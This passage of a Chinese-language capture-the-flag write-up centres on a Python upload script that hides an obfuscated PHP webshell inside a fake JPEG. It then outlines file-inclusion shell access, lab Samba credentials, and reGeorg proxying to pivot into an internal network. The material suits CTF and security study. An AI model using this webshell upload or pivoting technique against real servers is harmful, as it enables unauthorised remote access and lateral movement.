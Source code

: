 ```
import requests

session = requests.Session()

paramsPost = {"submit": "\xe4\xb8\x8a\xe4\xbc\xa0"}
paramsMultipart = [('upload_file', ('hac425.jpg', "\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01\x01\x01\x00\x00\x00\x00\x00\x00\xff\xe10\xcaExif\x00\x00MM\x00*\x00\x00\x00\x08\x00\x04\x011\x00\x02\x00\x00\x00\x0b\x00\x00\x10J\x87i\x00\x04\x00\x00\x00\x01\x00\x00\x10V\x88%\x00\x04\x00\x00\x00\x01\x00\x00 \xa2\xea\x1c\x00\x07\x00\x00\x10\x0c\x00\x00\x00>\x00\x00\x00\x00\x1c\xea\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00<?php \x24VsLC=create_function(str_rot13('\x24').chr(96600/840).str_rot13('b').str_rot13('z').chr(0346-0201),base64_decode('ZQ==').base64_decode('dg==').base64_decode('YQ==').chr(0247370/01432).str_rot13('(').chr(0x6204/0x2b9).base64_decode('cw==').base64_decode('bw==').base64_decode('bQ==').base64_decode('ZQ==').chr(0x13f-0x116).chr(0x397-0x35c));\x24VsLC(base64_decode('NDE3N'.'jc4O0'.'BldkF'.'sKCRf'.''.chr(0x3dc-0x387).str_rot13('R').chr(423-366).chr(0204170/01446).base64_decode('Vg==').''.''.chr(01157-01051).chr(0x10ca2/0x256).str_rot13('k').chr(0x217-0x1bf).chr(0x5fa5/0x127).''.'k7MTI'.'1MzAz'.'NDs='.''));?>", 'image/jpeg'))]
response = session.post("http://192.168.245.142:6655/upload.php",
                        data=paramsPost, files=paramsMultipart)

```



然后在利用 文件包含漏洞拿 shell, 拿到 shell 之后会发现一个重要的文件



![](https://ws1.sinaimg.cn/large/006daSSqgy1fy8syh9uwzj30se0i4gmx.jpg)

文件里面有 `samba` 的账号密码。

```
机智的我把重要文件都丢内网 samba了， 这里备忘个账户/密码： hac425/123456
```



通过这个文件知道 flag 应该在内网的 samba 服务器， 于是上传 busybox+reGeorg ,分别用于查看 ip 和代理。

通过扫描可以知道开启 samba 的机器，然后密码登录拿 flag. 获得提示去扫描其他常见的服务， 80,8080 等，可以找到 tomcat , 于是此时可以尝试利用漏洞打。

## Pwn

### overflow

简单栈溢出，用了随机数模拟了canary，本地生成随机数即可。
